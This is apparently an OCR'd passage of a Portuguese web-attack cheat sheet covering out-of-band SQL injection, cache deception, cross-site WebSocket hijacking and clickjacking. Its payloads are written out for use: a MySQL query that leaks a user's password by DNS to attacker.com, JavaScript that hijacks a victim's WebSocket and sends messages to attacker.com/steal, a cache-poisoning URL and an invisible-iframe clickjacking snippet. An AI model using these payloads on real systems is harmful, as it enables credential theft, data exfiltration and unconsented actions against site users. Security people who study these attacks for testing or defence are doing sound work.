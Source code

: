 5. Advanced SQL Injection (Out-of-Band - OOB SQLi)
Contexto: Quando SQLi tradicional falha (blind ou firewall bloqueando).

Ataques:

Usar funções como LOAD_FILE(), xp_dirtree, ou dns exfiltration.

Payload DNS Exfiltration exemplo (MySQL):

sql
Copiar
Editar
SELECT LOAD_FILE(CONCAT('\\\\', (SELECT password FROM users WHERE id=1), '.attacker.com\\foo'));
Impacto: Exfiltra dados via DNS sem retorno direto de payload.

6. Cache Deception Attack
Contexto: Fazer o cache do servidor armazenar páginas sensíveis.

Ataques:

Forçar caching de páginas autenticadas.

Exemplo URL Manipulation:

ruby
Copiar
Editar
https://shop.com/account/login/fake.jpg
Impacto: Permite que outro usuário receba páginas sensíveis armazenadas no cache CDN.

7. Cross-Site WebSocket Hijacking (CSWSH)
Contexto: Websockets mal autenticados aceitando conexões de origens cruzadas.

Ataques:

Conectar ao WebSocket de outro usuário e roubar dados.

Payload JS:

javascript
Copiar
Editar
var ws = new WebSocket('wss://victim.com/socket');
ws.onmessage = function(msg){ fetch('https://attacker.com/steal?data='+msg.data) }
Impacto: Roubo de informações privadas em tempo real.

8. Clickjacking + Frame Injection
Contexto: Site sem X-Frame-Options ou Content-Security-Policy: frame-ancestors.

Ataques:

Fazer o usuário clicar em botões invisíveis de outro site.

Exemplo HTML:


<iframe src="https://victim.com/checkout" style="opacity:0;position:absolute;top:0;left:0;width:100%;height:100%"></iframe>
Impacto: Compras sem consentimento, execução de ações críticas.

